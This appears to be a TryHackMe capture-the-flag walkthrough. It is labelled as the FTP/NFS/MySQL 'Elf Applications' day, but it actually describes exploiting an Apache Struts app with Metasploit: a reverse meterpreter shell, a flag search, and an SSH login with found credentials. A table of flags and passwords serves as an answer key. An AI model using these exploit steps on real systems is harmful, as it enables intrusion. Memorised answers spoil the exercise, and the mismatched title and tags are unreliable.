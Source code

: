 # [Day 11] Elf Applications Writeup
### Tags: `#FTP #NFS #MySQL`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day11.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.244.242
```

![](imgs/ping.png)

2.) Lets run a nmap scan on the machine to enumerate all services on open ports.

```bash
nmap -A 10.10.244.242
```

![](imgs/nmap.png)

3.) Lets take a look at the Apache webapp running on port 80. The home page redirects to /showcase.action, this seems unique.

![](imgs/webapp.png)

4.) Using google, lets search for apache showcase.action and see if we can find any results for exploits that we can use. The 4th result from www.rapid7.com seems like a good fit because Rapid7 is the developers of Metasploit.

![](imgs/showcase_action.png)

5.) Using the CLI tool searchsploit, which is a local version of the exploitDB maintained by OffSec. We can see the exploits listed for Apache Struts.

![](imgs/searchsploit.png)

6.) Using Metasploit, lets execute the struts2_content_type_ognl exploit.

```bash
msfconsole

search struts2

use 6

show options
```

![](imgs/usemsf.png)

7.) When using Metasploit, we need to set all the required options before trying to execute the exploit on the machine.

```bash
set RHOSTS 10.10.173.247

Set RPORT 80

set TARGETURI /showcase.action

set LHOST 10.13.37.142
```

![](imgs/setoptions.png)

8.) With all the required fields set within Metasploit, we can execute the exploit by running the command run.

![](imgs/run.png)

9.) Now that we have a meterpreter shell, we can drop into a standard shell by running the command shell. What we are trying to do is run a bash command to find any files on the machine that have flag1 within its name.

```bash
shell

find / 2>dev/null | grep -i "flag1"
```

![](imgs/flag1.png)

10.) Lets take a look at the / directory. Do you notice the .dockerenv file. This is a sign that we are currently isolated inside a active containter. Another sign is to run the ps aux command and take note of the number of processes (less processes means most likely a docker container).

![](imgs/docker.png)

11.) Now taking a look at the santa home directory, we see a file named ssh-creds.txt. 

![](imgs/sshcreds.png)

12.) Using the username:password combo found in the ssh-creds.txt file and with a open port 22 (ssh service), we can bypass the docker container and login directly to the machine using the santa user.

![](imgs/sshlogin.png)

13.) Checking the home directory for santa, we see two files naughty_list.txt and nice_list.txt.


```bash
cat -n naughty_list.txt
or
vim naughty_list.txt
:wq

cat -n nice_list.txt
or
vim nice_list.txt
:wq
```

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | Compromise the web server using Metasploit. What is flag1? | THM{3ad96bb13ec963a5ca4cb99302b37e12} |
| Task #2 | Now you've compromised the web server, get onto the main system. What is Santa's SSH password? | rudolphrednosedreindeer |
| Task #3 | Who is on line 148 of the naughty list? | Melisa Vanhoose |
| Task #4 | Who is on line 52 of the nice list? | Lindsey Gaffney |








